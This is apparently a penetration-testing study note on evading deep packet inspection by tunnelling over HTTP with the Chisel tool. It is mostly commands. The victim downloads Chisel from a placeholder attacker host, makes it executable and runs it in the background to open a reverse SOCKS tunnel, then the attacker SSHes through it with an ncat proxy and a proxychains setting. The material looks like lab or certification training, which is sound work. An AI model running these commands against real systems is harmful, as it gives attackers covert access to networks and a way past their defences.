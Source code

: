 Deep packet inspection devices may be configured to only allow specific transport protocols into, out of, or across the network. For example, a network administrator could create a rule that terminates any outbound SSH traffic. If they implemented that rule, all connections that use SSH for transport would fail, including any SSH port redirection and tunneling strategies we had implemented.
# HTTP Tunneling
If DPI is blocking a lot of stuff, maybe it lets HTTP through?
## Chisel
Chisel does HTTP Tunneling.
### Steps
1. Transfer chisel to target:
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
```
```bash
gunzip chisel_1.8.1_linux_amd64.gz
```
```bash
python -m http.server 80
```
On target:
```bash
wget $(ATTACKER_IP)/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
2. Run chisel
Kali:
```bash
chisel server --port 8080 --reverse
```
Victim machine:
```bash
/tmp/chisel client $(ATTACKER_IP):8080 R:socks > /dev/null 2>&1 &
```
3. SSHing through chisel
```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' $(SSH_USER)@$(REMOTE_IP)
```
REMEMBER TO ADD TO /etc/proxychains4.conf:
```
socks5 127.0.0.1 1080
```
